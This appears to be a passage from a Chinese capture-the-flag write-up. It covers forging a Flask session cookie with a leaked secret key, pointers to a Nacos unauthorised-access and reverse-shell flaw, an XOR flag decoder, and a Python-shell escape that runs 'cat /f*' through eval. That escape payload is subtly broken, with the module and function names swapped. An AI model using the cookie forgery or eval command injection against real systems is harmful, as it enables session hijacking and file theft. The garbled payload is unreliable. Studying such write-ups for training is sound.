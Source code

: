 ```python
python .\flask_session_cookie_manager3.py encode -s "9776436d6a1453cf13eceee8cda4fd84" -t "{'key': '1689245500101730900'}"
eyJrZXkiOiIxNjg5MjQ1NTAwMTAxNzMwOTAwIn0.ZK_Zsg.9oonOJJLBNz-XhXMQM9H7RCxo9Q
```
访问/flag
![image.png](https://cdn.nlark.com/yuque/0/2023/png/35980243/1689246228109-92ab39b7-9a85-4d50-8b22-38a0c3925eca.png#averageHue=%236a7069&clientId=u1129387b-6829-4&from=paste&height=843&id=u8367fd51&originHeight=843&originWidth=1291&originalType=binary&ratio=1&rotation=0&showTitle=false&size=75685&status=done&style=none&taskId=uc14a9b55-8fac-4453-8d69-042a37f2ecc&title=&width=1291)
### BackendService
[https://mp.weixin.qq.com/s/2TDV2L-o1MlbYU0PSjb65Q](https://mp.weixin.qq.com/s/2TDV2L-o1MlbYU0PSjb65Q)
[https://blog.csdn.net/Hoopy_Hoopy/article/details/120283270](https://blog.csdn.net/Hoopy_Hoopy/article/details/120283270)
[https://xz.aliyun.com/t/11493#toc-5](https://xz.aliyun.com/t/11493#toc-5)
nacos漏洞
未授权；配置，反弹shell

## RE
### babyre
[https://snap.berkeley.edu/snap/snap.html](https://snap.berkeley.edu/snap/snap.html)
![image.png](https://cdn.nlark.com/yuque/0/2023/png/35980243/1685245383412-1d7a09e5-127b-4acb-a8f0-a97ae1fac3b6.png#averageHue=%23694d3b&clientId=u0b25a8a8-eb31-4&from=paste&height=648&id=ub3adca46&originHeight=972&originWidth=1915&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=707267&status=done&style=none&taskId=u1e4494b6-a6b5-4aa7-8de7-c3d2d8175e4&title=&width=1276.6666666666667)
secret export
```
102,10,13,6,28,74,3,1,3,7,85,0,4,75,20,92,92,8,28,25,81,83,7,28,76,88,9,0,29,73,0,86,4,87,87,82,84,85,4,85,87,30
```
exp.py
```python
data = [102,10,13,6,28,74,3,1,3,7,85,0,4,75,20,92,92,8,28,25,81,83,7,28,76,88,9,0,29,73,0,86,4,87,87,82,84,85,4,85,87,30]
flag = chr(data[0])
for i in range(1, len(data)):
    data[i] = data[i] ^ data[i-1]
    flag += chr(data[i])
print(flag)
```
## MISC
### 被加密的生产流量
![](https://cdn.nlark.com/yuque/0/2023/png/35980243/1685267575294-85403fb7-789f-4f47-9f91-78bfd00effe8.png#averageHue=%23faf8f7&clientId=ube04f257-9777-4&from=paste&height=607&id=u7b8adede&originHeight=902&originWidth=790&originalType=url&ratio=1.5&rotation=0&showTitle=false&status=done&style=none&taskId=u59c490aa-8490-4a2d-93ef-80bb4d7ac00&title=&width=532)
![](https://cdn.nlark.com/yuque/0/2023/png/35980243/1685267575256-79ed8b60-28bf-403f-b961-822fc170da8a.png#averageHue=%23fbfbfa&clientId=ube04f257-9777-4&from=paste&height=275&id=u6bc42ac5&originHeight=624&originWidth=1212&originalType=url&ratio=1.5&rotation=0&showTitle=false&status=done&style=none&taskId=u4909d19d-b413-43c5-85ee-29b8519ea04&title=&width=534)
### pyshell
python shell
字符串长度为7
python特性 下划线表示上次输出结果，拼接得到命令
```
"__import__('system').os('cat /f*')"
eval(_)
```
